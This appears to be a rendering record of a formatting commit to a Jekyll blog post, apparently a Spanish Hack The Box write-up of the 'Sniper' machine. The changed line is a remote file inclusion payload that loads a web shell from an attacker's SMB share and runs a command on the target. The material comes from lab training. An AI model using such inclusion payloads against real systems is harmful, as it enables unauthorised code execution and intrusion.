

Before and after one commit to BlackCage/BlackCage.github.io, a Jekyll site: the page built from all_collections/_posts/2022-11-29-sniper-htb.md, in a window 1280 px wide. Shown: the part 1456-3354 px from the top of the page at 82% size, without its empty margins (283-996 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

````diff
--- a/all_collections/_posts/2022-11-29-sniper-htb.md
+++ b/all_collections/_posts/2022-11-29-sniper-htb.md
@@ -32,7 +32,9 @@ Bien! Vemos que también es vulnerable a `RFI`, vamos a crearnos una Web Shell p
 
 En mi caso lo llamé `cmd.php` para identificarlo mejor. Una vez creado lo llevamos a la carpeta compartida por `Samba` y cambiaremos de nuevo el parámetro `lang`.
 
-- `http://10.10.10.151/blog?lang=\\10.10.14.15\share\cmd.php&cmd=whoami`
+```
+http://10.10.10.151/blog?lang=\\10.10.14.15\share\cmd.php&cmd=whoami
+```
 
 
 ```
````
